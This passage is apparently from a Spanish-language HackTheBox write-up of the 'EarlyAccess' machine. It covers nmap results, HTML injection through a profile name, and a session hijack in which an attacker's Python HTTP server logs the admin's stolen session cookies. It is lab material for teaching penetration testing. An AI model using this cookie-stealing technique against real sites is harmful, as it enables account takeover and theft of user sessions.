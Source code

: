 ```powershell
'Service Info: Host: 172.18.0.102; OS: Linux; CPE: cpe:/',
'o:linux:linux_kernel',
'Service detection performed. Please report any incorrect results at',
'https://nmap.org/submit/ .',
'Nmap done: 1 IP address (1 host up) scanned in 14.22 seconds'
```

Googleando <i>OpenSSH 7.9p1 Debian 10+deb10u2 </i> sabemos que corre un Debian Buster.

Editamos <i>/etc/hosts </i> y añadimos earlyaccess.htb.

### earlyaccess.htb - TCP 443

Inspeccionando la página vemos un correo <i>admin@earlyaccess.htb</i>, al no ver nada interesante nos registramos con una cuenta.

Una vez dentro nuestra cuenta vemos varias pestañas nuevas Home, Messaging, Forum, Store y Register Key, notamos que al enviar mensajes nos responden al instante probamos alguna SQLI pero no obtenemos nada.

Sabemos que algunas veces los desarrolladores se enfocan en un solo apartado y se olvidan de otros, por ejemplo en la pestaña del perfil tenemos la opción de cambiar el nombre vemos si al enviar un mensaje con nuestro nuevo nombre <i>&#60;h1&gt;test &#60;h1&#62;</i> se interpreta HTML.
<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605527/html_injection_gimp_mttc4l.webp'
width={700}
height={475}
/>

Intentamos un secuestro de sesión, ponemos un servidor por el puerto 80 y esperamos que admin abra nuestro mensaje para que nos llegue sus cookies y lo remplazamos en nuestra sesión actual.
<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605556/hijack_session_coxtn0.webp'
width={828}
height={113}
/>

```powershell
leo@nardo$ python3 -m http.server 80

'serving HTTP on 0.0.0.0 port 80 (https://0.0.0.0:80) ...',
"cookie=XSFR-TOKEN=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c;%20earlyaccess_session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c HTTP/1.1' 200 -"
```

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605583/replace_session_mifkke.webp'
width={400}
height={75}
/>
